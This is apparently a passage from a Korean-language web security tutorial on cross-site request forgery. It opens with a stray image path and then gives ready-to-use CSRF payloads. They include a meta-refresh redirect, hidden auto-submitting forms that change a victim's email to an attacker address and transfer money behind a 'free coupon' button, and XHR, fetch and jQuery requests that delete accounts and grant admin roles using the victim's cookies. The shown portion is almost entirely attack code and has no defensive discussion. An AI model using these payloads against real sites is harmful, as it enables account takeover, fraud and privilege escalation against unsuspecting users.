 #### 2.1.3. 메타 태그를 이용한 자동 리다이렉트
```html
<meta http-equiv="refresh" content="0; url=http://target.com/dangerous_action?confirm=yes">
```

### 2.2. POST 기반 CSRF 공격

#### 2.2.1. 자동 폼 제출
```html

<form name="csrf_form" action="http://target.com/change_email" method="POST">
    <input type="hidden" name="email" value="attacker@evil.com">
    <input type="hidden" name="confirm" value="yes">
</form>
<script>
    document.csrf_form.submit();
</script>


<form id="hidden_form" action="http://target.com/transfer_money" method="POST">
    <input type="hidden" name="to_account" value="attacker_account">
    <input type="hidden" name="amount" value="10000">
</form>
<button onclick="document.getElementById('hidden_form').submit()">
    무료 쿠폰 받기!
</button>
```

#### 2.2.2. AJAX를 이용한 백그라운드 공격
```javascript
// XMLHttpRequest를 이용한 POST 요청
function csrfAttack() {
    var xhr = new XMLHttpRequest();
    xhr.open('POST', 'http://target.com/api/delete_account', true);
    xhr.setRequestHeader('Content-Type', 'application/x-www-form-urlencoded');
    xhr.send('confirm=yes&reason=user_request');
}

// Fetch API를 이용한 공격
fetch('http://target.com/api/change_role', {
    method: 'POST',
    headers: {
        'Content-Type': 'application/json',
    },
    body: JSON.stringify({
        user_id: 123,
        new_role: 'admin'
    }),
    credentials: 'include'  // 쿠키 포함
});

// jQuery를 이용한 공격
$.post('http://target.com/update_profile', {
    username: 'attacker',
    email: 'attacker@evil.com',
    role: 'admin'
});
```
